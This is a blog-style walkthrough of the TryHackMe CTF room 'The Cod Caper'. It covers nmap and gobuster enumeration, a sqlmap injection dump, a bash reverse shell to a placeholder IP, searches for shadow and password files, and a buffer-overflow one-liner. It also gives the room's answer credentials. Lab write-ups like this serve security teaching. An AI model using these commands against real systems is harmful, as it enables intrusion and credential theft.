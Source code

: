 ```yaml
---
layout: blog
title: THM The Cod Caper Writeup
publishDate: 2023-12-04T16:42:00.000Z
description: Walk-through and answers of TryHackMe CTF room - The Cod Caper.
tags:
  - tryhackme
  - writeup
---
```

## Task 2: Host Enumeration

Scan the network with nmap using proper techniques to get the answers.

```sh
nmap -sV -A -vv -oN thecodcaper.nmap -T4 --min-rate=10000 TARGET_IP
```

| Flag | Use               |
| ---- | ----------------- |
| sV   | version detection |
| A    | scan everything   |
| vv   | more verbose      |
| oN   | output file       |
| T4   | for faster scan   |

* Open ports: 2 (22 and 80)
* http-title: Apache2 Ubuntu Default Page: It works
* ssh service version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
* Web server version: Apache/2.4.18

## Task 3: Web Enumeration

Scan for the directories using Gobuster.

> Note: Use the `seclists/Discovery/Web-Content/big.txt` wordlist

```sh
gobuster dir -u http://TARGET_IP/ -x php,txt,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o thecodcaper.gobuster
```

| Flag | Use                     |
| ---- | ----------------------- |
| u    | URL                     |
| x    | File type: txt,html,php |
| w    | wordlist                |
| o    | output                  |

* Important file on the server: /administrator.php

## Task 4: Web Exploitation

On visiting the /administrator.php page, some kind of a login form could be found. The username and password can be found using SQL injection.

```sh
sqlmap --dump --forms -u http://TARGET_IP/administrator.php
```

| Flag  | Use                                |
| ----- | ---------------------------------- |
| dump  | Prints the output of the injection |
| forms | targets html forms                 |
| u     | URL                                |

![](/images/uploads/pasted-image-20231204172051.png)

Running the same command without `--dump` flag will reveal the number of vulnerable forms:

![](/images/uploads/pasted-image-20231204172253.png)

* Admin username: pingudad
* Admin password: secretpass
* Number of vulnerable forms: 3

## Task 5: Command Execution

Login to the administrator.

Run `ls` to find the number of forms.

To check if pingu has the account or not, check the output of the `/etc/passwd`.

Since we are able to run any linux command, it is better to use a reverse shell.

Start a netcat listening server:

```sh
nc -nlvp 4444
```

Execute the reverse shell:

```sh
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/4444 <&1'
```

The ssh password should be saved in the `/etc/shadow` file, but you would not have superuser privileges to access its contents. But, backups stored in other places might not need sudo. Use the `find` command to search for files:

```sh
find / -type f -name "shadow*"
```

Command breakdown:

* `/` - look for files in the root directory
* `-type f` - look for files only
* `-name "shadow*"` - filename containing "shadow"

You'll find a backup stored in `/var/backups/shadow.bak` but its not accessible as well. So look for files containing the word "pass".

```sh
find / -type f -name "pass*"
```

The ssh password should be found in the file `/var/hidden/pass`

* SSH password: pinguapingu

## Task 6: LinEnum

Download LinEnum on your computer from GitHub. Then use `scp` to send the file to the target machine through ssh.

```sh
scp /opt/LinEnum.sh pingu@TARGET_IP/tmp
```

Login using the credentials gathered from previous task.

After the command is successfully executed, login to the target with ssh and execute the LinEnum.sh script.

```sh
cd /tmp && ./LinEnum.sh
```

![](/images/uploads/pasted-image-20231207183828.png)

* Secret file: /opt/secret/root

## Task 10: Finishing the job

The previous tasks are just read-only. All you need to do is find out the root hash using binary exploitation. Run this command and you'll get the root hash:

```sh
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

![](/images/uploads/pasted-image-20231207185904.png)

This is a sha512crypt hash. Use hashcat to crack the password. It might take some time.

* Root password: love2fish
